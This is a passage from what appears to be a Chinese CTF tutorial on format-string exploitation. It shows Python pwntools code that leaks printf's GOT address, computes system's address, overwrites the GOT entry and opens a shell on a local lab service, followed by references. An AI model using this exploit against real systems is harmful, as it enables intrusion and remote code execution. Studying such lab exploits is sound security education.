 ```python
    p.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4]
    log.info("printf address: %s" % data.encode('hex'))
    return data
# printf_addr = get_printf_addr()
printf_addr = 0xf7e0e670
offset_printf = 0x00051670
offset_system = 0x0003cc50
system_addr = printf_addr - (offset_printf - offset_system)

## method 2
def leak(addr):
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:-4] + "\x00"
    log.info("leaking: 0x%x --> %s" % (addr, data.encode('hex')))
    p.close()
    return data
# data = DynELF(leak, 0x08048490)     # Entry point address
# system_addr = data.lookup('system', 'libc')
# printf_addr = data.lookup('printf', 'libc')
# log.info("system address: 0x%x" % system_addr)
# log.info("printf address: 0x%x" % printf_addr)

## get shell
payload = fmtstr_payload(7, {printf_got: system_addr})
p = remote('127.0.1.1', '10001')
p.recvline()
p.sendline(payload)
p.recv()
p.sendline('/bin/sh')
p.interactive()
```


## 参考资料
- [Linux系统下格式化字符串利用研究](https://paper.seebug.org/246/)
- [33C3 CTF 2016 -- ESPR](http://bruce30262.logdown.com/posts/1255979-33c3-ctf-2016-espr)
